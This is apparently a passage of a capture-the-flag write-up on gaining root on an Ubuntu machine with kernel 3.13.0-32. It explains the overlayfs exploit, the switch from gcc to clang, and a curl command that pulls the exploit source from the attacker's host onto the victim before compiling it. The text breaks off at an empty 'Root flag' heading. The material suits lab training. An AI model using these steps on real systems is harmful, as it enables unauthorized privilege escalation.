 ## Privilege Escalation

### Enumerate the machine manually.
- Have a checklist and check them manually

### Whats the kernel version?
- **Answer:** 3.13.0-32-generic
- **Steps to Reproduce:** 

```bash
www-data@ubuntu:/$ uname -a
Linux ubuntu 3.13.0-32-generic
```

### Overlayfs Exploit

- This machine is vulnerable to the overlayfs exploit. The exploitation is technically very simple:
    - Create new user and mount namespace using clone with CLONE_NEWUSER|CLONE_NEWNS flags.
    - Mount an overlayfs using /bin as lower filesystem, some temporary directories as upper and work directory.
    - Overlayfs mount would only be visible within user namespace, so let namespace process change CWD to overlayfs, thus making the overlayfs also visible outside the namespace via the proc filesystem.
    - Make su on overlayfs world writable without changing the owner
    - Let process outside user namespace write arbitrary content to the file applying a slightly modified variant of the SetgidDirectoryPrivilegeEscalation exploit.

### Fix the exploit to work with the system you're trying to exploit. Remember, enumeration is your key! What development tools are installed on the machine?
- By checking inside `/usr/bin`, we can find `clang` is installed. So, we can use that to compile the code!
- Make sure to modify a line inside the exploit which contains `gcc` to `clang`: `lib = system("clang -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");`
- Transfer the exploit to the victim machine and compile it!

{% hint style="info" %}
`cc` was also installed on the machine!! That was the hint - one letter change!
{% endhint %}

```bash
www-data@ubuntu:/dev/shm$ curl http://10.17.7.91:8000/overlayfs.c > ofs.c
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  4984  100  4984    0     0  15869      0 --:--:-- --:--:-- --:--:-- 15923

www-data@ubuntu:/dev/shm$ clang ofs.c -o ofs                             
[..snip..]
5 warnings generated.
```

### Root flag

